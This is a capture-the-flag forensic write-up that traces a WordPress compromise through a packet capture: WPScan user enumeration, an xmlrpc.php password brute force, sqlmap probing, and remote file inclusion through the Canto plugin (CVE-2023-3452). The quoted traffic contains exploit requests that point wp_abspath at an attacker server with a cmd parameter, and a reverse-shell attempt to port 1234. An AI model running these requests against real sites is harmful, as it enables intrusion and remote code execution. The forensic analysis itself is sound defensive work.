# Wordpress (1-4) Forensic Challenge Writeup

## Introduction

This writeup is for a forensic challenge involving a .pcap file named "Wordpress". The challenge involves analyzing the packet capture to uncover the steps that a "hacker" used to get access to a webserver.

## Tools Used

- Wireshark: A network protocol analyzer used to view the details of the .pcap file.

## Solution

### Broad overlook of the attack

First thing that I have done was the really broad overlook of what happened. Because this capture is really big (200 mb), I just sorted it by a protocol and start digging up and just understanding, what is happenning, alongside marking some interesting packets.

So, whats happened?

We have an attack on some HTTP server (IP 192.168.204.128) by some intuder on 192.168.204.132. We can clearly identify it by just looking at some of the requests, that he is using some automation tools to scan the site:



We can clearly see, that he is using for that WP-Scan, as stated in his User-Agent:
```
HEAD /wordpress/backup.wp-config.php HTTP/1.1
Host: 192.168.204.128
User-Agent: WPScan v3.8.25 (https://wpscan.com/wordpress-security-scanner)
```
After that initial scan we can also observe a large amount of POST requests on one endpoint, which is curios, but we will get into it later



Again, using WP-Scan
```
POST /wordpress/xmlrpc.php HTTP/1.1
Host: 192.168.204.128
User-Agent: WPScan v3.8.25 (https://wpscan.com/wordpress-security-scanner)
```

After that, our "hacker" used sqlmap to further try to get into the system, as it can be clearly seen in a broad overview of this capture:



And again, we can for sure know, that he is using here sqlmap by looking at User-Agent:

```
GET /wordpress%27.%2C%2C%29%2C%22.%28%29 HTTP/1.1
User-Agent: sqlmap/1.7.12#stable (https://sqlmap.org)
Host: 192.168.204.128
```

Alongside this attack we have a lot of junk with a Microsoft Delivery Optimisation, so in the next step it will be crucial to sort-out all of this requests:


We can be sure about nature of this requests by, again, looking at the insides of it:
```
GET /filestreamingservice/files/76c43c3c-b91b-4ac4-b2b6-81008116eba4?P1=1705528528&P2=404&P3=2&P4=lVRetCa8A5ENbnR%2bzpwsGeaoEHO%2bAj1OdVcYD0cq8Fik9eGrw7aKaUuANyB%2f%2bnscHDF8FZYBFOkq%2bTOgDfznHA%3d%3d HTTP/1.1
Connection: Keep-Alive
User-Agent: Microsoft-Delivery-Optimization/10.0
Host: tlu.dl.delivery.mp.microsoft.com
```

That is all, what we can clearly identify in a "quick" glance. Know, after marking the important steps of this hacking attempt, we can dig deeper and actually answer the question of our challenges.

### Wordpress-1

So, first set of questions:
```
Our WordPress site has experienced a security breach, and the precise method of compromise remains undetermined at present. We need you help to investigate what actually happened.

Q1. There were two attackers attempting to compromise our environment. What is the IP address of the victim, and what is the IP address of the first attacker? Q2. 2. What are the versions of the Apache and PHP servers deployed in our environment?

Flag Format 0xL4ugh{A1_A2}

    Example: 0xL4ugh{IP1_IP2_apache1.2.3_php1.2.3}(no spaces)

```

To answer the Q1, we just need to look back at our overview, where we could with ease identify one of the attempts. We can be sure, that this is a first one, since it was the first connection, that was made to our HTTP server (here I would not count the admin access to a page as "first", because we really do not care about it).

```
6295	127.285896	192.168.204.132	192.168.204.128	HTTP	269	GET /wordpress/ HTTP/1.1 
```

So, our victim is 192.168.204.128, and attacker, of course, is 192.168.204.132

To get apache and http server, we just need to look at any response with a redirect, coming from a server, like

```
322	21.070158	192.168.204.128	192.168.204.1	HTTP	328	HTTP/1.1 304 Not Modified 

HTTP/1.1 304 Not Modified
Server: Apache/2.4.58 (Win64) OpenSSL/3.1.3 PHP/8.2.12
```

So, our flag is
0xL4ugh{192.168.204.128_192.168.204.132_apache2.4.58_php8.2.12}

### Wordpress-2

```
Q1. During enumeration, the attacker tried to identify users on the site. List all the users that the attacker enumerated. (seperate them with :),(sort them by alphapitical order)

Q2. After enumeration, a brute force attack was launched against all users. The attacker successfully gained access to one of the accounts. What are the username and password for that account, and what is the name of the page used for the brute force attack?

Flag Format 0xL4ugh{A1_A2}

    Example: 0xL4ugh{username1:username2_username:password_pageName.ext}
```

Yes, from now on, we need to dig deeper into logs, that we have. So, where are those user enumeration attempts taking place?

Firstly, lets filter packets to see only those, that is being sended or received by our attacker:

```
(ip.src == 192.168.204.132) || (ip.dst == 192.168.204.132)
```

So, looking at the packet captured, right after WPScan enumerated all the pages,  we have a GET request to



```
88204	335.801538	192.168.204.132	192.168.204.128	HTTP	342	GET /wordpress/wp-sitemap-users-1.xml HTTP/1.1 
```

Which outputs xml

```
<?xml version="1.0" encoding="UTF-8"?>
<?xml-stylesheet type="text/xsl" href="http://192.168.204.128/wordpress/wp-sitemap.xsl" ?>
<urlset xmlns="http://www.sitemaps.org/schemas/sitemap/0.9">
<url><loc>http://192.168.204.128/wordpress/author/a1l4m/</loc></url>
<url><loc>http://192.168.204.128/wordpress/author/not7amoksha/</loc></url></urlset>
```

So here, I would call it as "done", and say, that this are all the users, that he had evaluated, but then, he also tried different enumeration, using wordpess/?auhtor=number endpoint



```
88288	338.959388	192.168.204.132	192.168.204.128	HTTP	329	GET /wordpress/?author=1 HTTP/1.1 
```

Which returns that we have 3 authors, two of them we saw earlier, and they have the valid endpoints.

But for author=3 we do not have a /author/name page, but it still outputs the author page, weirdly enough:



And in the response we can clearly see an author name:
```
<title>demomorgan &#8211; 0xL4ugh FTW</title>\n
```

So, he enumed not 2, but 3 users: a1l4m, not7amoksha, demomorgan. That our first part of an answer. But what about the attack?

As I've mentioned in the overview, there were A LOT of similar POST requests to the same URL, lets see, what we have inside:



Here is the beginning of that "attack", lets dig deeper.

First POST request was used to enumerate all methods, that the attacker can use:
```
POST /wordpress/xmlrpc.php HTTP/1.1
Host: 192.168.204.128


<?xml version="1.0" ?><methodCall><methodName>system.listMethods</methodName><params/></methodCall>
```

It outputs, surely, all of the methods (I wont list the complete answer from the server)

```
HTTP/1.1 200 OK

<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <params>
    <param>
      <value>
      <array><data>
  <value><string>system.multicall</string></value>
  <value><string>system.listMethods</string></value>
    ..............................................
</data></array>
      </value>
    </param>
  </params>
</methodResponse>
```

And then, WPScan picks up the "useful" call to try and bruteforce users (note, that the first request does not contain an actual user, but just random sample of symbols):

```
POST /wordpress/xmlrpc.php HTTP/1.1
Host: 192.168.204.128


<?xml version="1.0" ?>
<methodCall>
<methodName>wp.getUsersBlogs</methodName>
<params>
<param><value><string>66f3d6</string></value></param>
<param><value><string>6d65</string></value></param></params></methodCall>
```

And it returns:

```
HTTP/1.1 200 OK

<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <fault>
    <value>
      <struct>
        <member>
          <name>faultCode</name>
          <value><int>403</int></value>
        </member>
        <member>
          <name>faultString</name>
          <value><string>Incorrect username or password.</string></value>
        </member>
      </struct>
    </value>
  </fault>
</methodResponse>
```

So, this is how he will bruteforce his way into one of the accounts! But how we can find a way to find a response, that passed?  Easiest way will be just to filter the requests and only include this protocol (HTTP/XML), and then just see, which packets have different response size (not 674)

So, we can once again arrange the packets by protocol name, and on the top we will find the "biggest" packets. That way we can find

```
147357	929.345612	192.168.204.128	192.168.204.132	HTTP/XML	940	HTTP/1.1 200 OK 
```

That has in its body:
```
HTTP/1.1 200 OK

<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <params>
    <param>
      <value>
      <array><data>
  <value><struct>
  <member><name>isAdmin</name><value><boolean>0</boolean></value></member>
  <member><name>url</name><value><string>http://192.168.204.128/wordpress/</string></value></member>
  <member><name>blogid</name><value><string>1</string></value></member>
  <member><name>blogName</name><value><string>0xL4ugh FTW</string></value></member>
  <member><name>xmlrpc</name><value><string>http://192.168.204.128/wordpress/xmlrpc.php</string></value></member>
</struct></value>
</data></array>
      </value>
    </param>
  </params>
</methodResponse>
```

Which is clearly looks like sucessfull login. So, tracing the entire conversation, we can get, what password was used here:
```
147339	926.612822	192.168.204.132	192.168.204.128	HTTP	621	POST /wordpress/xmlrpc.php HTTP/1.1  (application/x-www-form-urlencoded)
```

```
POST /wordpress/xmlrpc.php HTTP/1.1
Host: 192.168.204.128

<?xml version="1.0" ?>
<methodCall><methodName>wp.getUsersBlogs</methodName><params>
<param><value><string>demomorgan</string></value></param>
<param><value><string>demomorgan</string></value></param>
</params></methodCall>
```

So, our flag is

`0xL4ugh{a1l4m:demomorgan:not7amoksha_demomorgan:demomorgan_xmlrpc.php}`

### Wordpress-3

```
Q1. Mention the names of the tools that the attacker used in the attack. (alphapitical order)

Q2. There was a vulnerable plugin that the attacker exploited. What is the C2 server of the attacker, and what is the name of the plugin?

Q3. What is the version of the vulnerable plugin, and what is the CVE number associated with that plugin?

Flag Format 0xL4ugh{A1_A2_A3}

    Example: 0xL4ugh{tool1_tool2_C2_PluginName_1.2.3_CVE--}
```

Answering to Q1 is pretty simple. Going back to our broad overview, we can say, that our hacker used WPScan and sqlmap

But the Q2 and Q3 have nothing to do with our attack so far, because there were no interactions with outside server of the hacker. We need to find out, what happened in our capture file next.


Since we know, that there was another server in use, we need to ditch our filter, and just go raw searching through garbage and look for all HTTP requests

So, after some digging, I discovered this packet:

```
235875	1347.610435	192.168.204.1	192.168.204.128	HTTP	772	GET /wordpress/wp-content/plugins/canto/includes/lib/download.php?wp_abspath=http://172.26.211.155:8000&cmd=whoami HTTP/1.1 
```

It clearly looks like another hacking attempt, but this time from 192.168.204.1, so now our filter will look like

```
(ip.src == 192.168.204.1) || (ip.dst == 172.26.211.155) || (ip.src == 172.26.211.155)
```

And with that, we can see all the conversations we need



Answering Q3 and Q3, we can be sure, that our vulnerable plugin is something called "canto", and quick search about "canto" and "wp_abspath" parameter we can stumble upon https://nvd.nist.gov/vuln/detail/CVE-2023-3452
Here I just tried the latest vulnerable version of the plugin (3.0.4) and it worked!

So the flag is 0xL4ugh{sqlmap_WPScan_172.26.211.155_canto_3.0.4_CVE-2023-3452}

### Wordpress-4

```
Q1. What is the name of the function that the attacker tested the exploit with, and what is the name/version of the attacker's server?

Q2. What is the username that was logged on during the attack, including the domain?

Q3. The attacker attempted to upload a reverse shell. Mention the IP and port. What command posed an obstacle during the process of the reverse shell?

Flag Format 0xL4ugh{A1_A2_A3}

    Example: 0xL4ugh{functionName()_serverName/version_domain\username_IP:PORT_command}
```

Deeper into this attack!

To see, what the attacker used to test the function, we are going to the first execution of the script



But now, we are interested in content, received from attacker server, this packet:
```
137047	539.359454	172.26.211.155	192.168.204.128	HTTP	74	HTTP/1.0 200 OK 
```

With this content:
```
HTTP/1.0 200 OK
Server: SimpleHTTP/0.6 Python/3.10.12

<?php phpinfo(); ?>
```
Thay also answers what server is in use


Now, going to Q2, we need to see, what we got from victim server in a whoami request (for that we need to add ip.dst == 192.168.204.1 to the filters)
```
235875	1347.610435	192.168.204.1	192.168.204.128	HTTP	772	GET /wordpress/wp-content/plugins/canto/includes/lib/download.php?wp_abspath=http://172.26.211.155:8000&cmd=whoami HTTP/1.1 
```

And the answer

```
138648	605.165676	192.168.204.128	192.168.204.1	HTTP	657	HTTP/1.1 200 OK  (text/html)
```

```
HTTP/1.1 200 OK

desktop-2r3ar22\administrator
<br />
<b>Fatal error</b>:  Uncaught Error: Call to undefined function sanitize_text_field() in C:\xampp\htdocs\wordpress\wp-content\plugins\canto\includes\lib\download.php:7
Stack trace:
#0 {main}
  thrown in <b>C:\xampp\htdocs\wordpress\wp-content\plugins\canto\includes\lib\download.php</b> on line <b>7</b><br />
```

Going to Q3, we need to get to other attempts, but now without any cmd parameters. Like

```
145191	822.723084	192.168.204.1	192.168.204.128	HTTP	761	GET /wordpress/wp-content/plugins/canto/includes/lib/download.php?wp_abspath=http://172.26.211.155:8000 HTTP/1.1 
```



Here we can see, that attackers server has a reverse shell, because as the answer we got
```
145276	825.946404	192.168.204.128	192.168.204.1	HTTP	1178	HTTP/1.1 200 OK  (text/html)
```

```
HTTP/1.1 200 OK


<br />
<b>Warning</b>:  Undefined variable $daemon in <b>http://172.26.211.155:8000/wp-admin/admin.php</b> on line <b>141</b><br />
WARNING: Failed to daemonise.  This is quite common and not fatal.
<br />
<b>Warning</b>:  Undefined variable $daemon in <b>http://172.26.211.155:8000/wp-admin/admin.php</b> on line <b>141</b><br />
Successfully opened reverse shell to 172.26.211.155:1234
<br />
<b>Warning</b>:  Undefined variable $daemon in <b>http://172.26.211.155:8000/wp-admin/admin.php</b> on line <b>141</b><br />
ERROR: Shell process terminated
<br />
<b>Fatal error</b>:  Uncaught Error: Call to undefined function sanitize_text_field() in C:\xampp\htdocs\wordpress\wp-content\plugins\canto\includes\lib\download.php:7
Stack trace:
#0 {main}
  thrown in <b>C:\xampp\htdocs\wordpress\wp-content\plugins\canto\includes\lib\download.php</b> on line <b>7</b><br />
```

Which is clearly a reverse shell gone wrong, to see, what happened wrong, we need to look for the packages in the middle of that conversation

```
145270	825.939048	192.168.204.128	172.26.211.155	TCP	150	53597 → 1234 [PSH, ACK] Seq=1 Ack=1 Win=64240 Len=96
```

```
'uname' is not recognized as an internal or external command,
operable program or batch file.
```

So, that all the part we need, and the flag is

0xL4ugh{phpinfo()_SimpleHTTP/0.6_desktop-2r3ar22\administrator_172.26.211.155:1234_uname}
